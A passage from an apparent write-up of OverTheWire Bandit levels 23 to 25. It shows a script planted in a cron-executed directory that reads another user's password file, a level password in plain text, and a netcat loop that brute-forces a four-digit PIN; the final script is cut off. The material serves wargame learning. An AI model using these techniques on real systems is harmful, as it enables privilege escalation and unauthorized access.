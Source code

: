 Two cron jobs were running this time, a bandit24 and bandit24_root. The root one is off limits, but the regular bandit could be read. It was pretty well documented, and self explanatory. It appears to run all scripts in `/var/spool/bandit24` and deletes them after 60 seconds.

I ended up with the following code. Note that it needs to be marked executable, or you might spend quite some time wondering how your code is broken. It isn't, just `chmod +x` it.

```bash
#!/bin/bash
datfile=/tmp/gitsum
echo $(whoami) > $datfile
ls -alhF >> $datfile
cat /etc/bandit_pass/$(whoami) >> $datfile
```

And I used `clear && ll && file /tmp/gitsum` to check the status. After it was done, I cat the file for the password.

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## 24 -> 25

Port 30002 on localhost can be connected to using netcat. Bandit24's password is provided, along with a 4 digit pin that needs to be bruteforced. I first netcat-ed in to get an idea how it works, before coming up with the following:

```
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000" | nc localhost 30002
```

I came up with a script that would go in a loop through all pin numbers. A loop would test a pin in a background process, and if the message returned is different from the generic error, save that pin. There were a few iterations due to overloading the system's resources and various small bugs.

looper.sh
``` bash
#!/bin/bash
# Bruteforce pin codes

outFile=result

test_pin() {
    outFile=result
    pin=$1
    error="Wrong! Please enter the correct pincode. Try again."

    response=$(echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" | nc localhost 30002)
    # response=$error #debugging

    echo "test pin" $pin

    # response check
    if [[ "$response" != *"$error"* ]]; then 
        echo $pin >> $outFile
        echo $response >> $outFile
    fi
}

echo "start" >> $outFile

for d1 in $( seq 0 9 ); do
    for d2 in $( seq 0 9 ); do
        for d3 in $( seq 0 9 ); do
            for d4 in $( seq 0 9 ); do
                test_pin $d1$d2$d3$d4 &
                sleep 0.02 # Prevent overloading resources
            done
```